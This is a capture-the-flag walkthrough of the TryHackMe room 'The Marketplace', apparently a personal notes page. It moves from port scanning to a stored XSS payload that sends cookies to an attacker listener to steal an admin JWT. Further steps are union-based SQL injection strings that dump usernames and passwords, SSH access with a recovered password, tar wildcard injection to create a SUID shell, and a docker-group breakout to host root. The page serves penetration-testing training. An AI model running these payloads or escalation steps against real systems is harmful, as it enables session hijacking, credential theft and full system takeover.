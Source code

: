 # The Marketplace

**Room Link:** [https://tryhackme.com/room/marketplace](https://tryhackme.com/room/marketplace)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

## TCP/32768 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:32768 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

## XSS - Steal JVT

[https://jwt.io/](https://jwt.io/)

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>





I tried updating the token it didn't work

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>



Next we're going to try to steal the JWT from another user.

**Kali**

```
nc -lvnp 4444
```

**Browser**

```
<script>document.location='http://$KALI:4444/XSS/grabber.php?c='+document.cookie</script>
```

<figure><img src="../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>

This was annoying because if I went to my posts it wouldn't work so I went to Jakes post and changed the number from 2 to 6 to get to the report page. Then just clicked the report button

<figure><img src="../../.gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

we got a token from a user that isn't us

<figure><img src="../../.gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>



We can see it is from Michael who is an admin.

<figure><img src="../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>





Sent again but this time just forwarded the request so we could see what that script was doing

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>



The script was printing the flag

<figure><img src="../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

This wasn't working before but after next time I went to this box tried I could just update the cookie from the browser and it worked.

<figure><img src="../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

**Brower cookie**

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3MDE1MjgzODN9.O8218jJ0nmWedeewklX6fkb9sjlgH81ciU7dJG5l9YY
```



We add a order by and increase the number until we get an error to reveal how many fields there are.

<figure><img src="../../.gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

After 5 it give us an error so we know there are four fields

<figure><img src="../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

We do a union select, first to try to show our 1s which isn't working because the first part of the statement runs successfully so theres no where to put our info

<figure><img src="../../.gitbook/assets/image (541).png" alt=""><figcaption></figcaption></figure>

To work around this we make the userid as 0 which probably doesn't exist and we can start seeing our 1s

<figure><img src="../../.gitbook/assets/image (542).png" alt=""><figcaption></figcaption></figure>

Get Version

<figure><img src="../../.gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>



Get Database

<figure><img src="../../.gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>





Get tables

```
UNION SELECT table_name,1,1,1 FROM information_schema.tables WHERE table_schema=database()
```

<figure><img src="../../.gitbook/assets/image (549).png" alt=""><figcaption></figcaption></figure>

Get All tables by concat

```
-1 UNION SELECT group_concat(table_name),1,1,1%20 FROM information_schema.tables WHERE table_schema =database()
```

<figure><img src="../../.gitbook/assets/image (550).png" alt=""><figcaption></figcaption></figure>





Get Columns for table users

```
-1%20UNION%20SELECT%20group_concat(column_name,column_type),1,1,1%20%20FROM%20information_schema.columns%20WHERE%20table_schema=marketplace
```

<figure><img src="../../.gitbook/assets/image (551).png" alt=""><figcaption></figcaption></figure>

Get Columns for table items

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='items' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1 UNION SELECT group_concat(column_name,column_type),1,1,1 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='messages' AND table_schema='marketplace'
```

<figure><img src="../../.gitbook/assets/image (553).png" alt=""><figcaption></figcaption></figure>

Get Columns for table messages

```
-1%20UNION%20SELECT%20group_concat(message_content),1,1,1%20FROM%20messages
```

<figure><img src="../../.gitbook/assets/image (554).png" alt=""><figcaption></figcaption></figure>



Get usernames and passwords. The passwords aren't too useful at this point but now we have some usernames.

```
-1%20UNION%20SELECT%20group_concat(username,%27|%27,password),1,1,1%20FROM%20users
```

<figure><img src="../../.gitbook/assets/image (555).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

## TCP/22 - SSH

**Kali**

```
ssh jake@$VICTIM
Password: @b_ENXkGYUCAv3zJ
```

<figure><img src="../../.gitbook/assets/image (546).png" alt=""><figcaption></figcaption></figure>

## **Lateral Movement**

**Exploit:** [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

Jake can run a backup script as michael. The script is using a wildcard which we manipulate.&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can trick the script to run this to get a shell by making empty files with similar names

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cd /opt/backups
mkdir priv
cd priv
touch ./--checkpoint=1
touch ./--checkpoint-action=exec=sh shell.sh
vi shell.sh
```

**shell.sh**

```
#!/bin/bash

cp /bin/bash /opt/backups/michealbash;
chmod +xs  /opt/backups/michealbash;
```

**Victim**

```
chmod +x shell.sh 
rm -f ../backup.tar 
sudo -u michael /opt/backups/backup.sh 
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **Privilege Escalation**

**Victim(micheal)**

```
id
find / -name docker.sock 2>/dev/null
docker images
docker run -it -v /:/host/ alpine chroot /host/ sh
```

michael is part of the docker group so it appears we're in a pod

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There a few images to test from. I just ran the last command above and changes the image name until it worked. Exploit worked with nginx and mysql images as well.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>








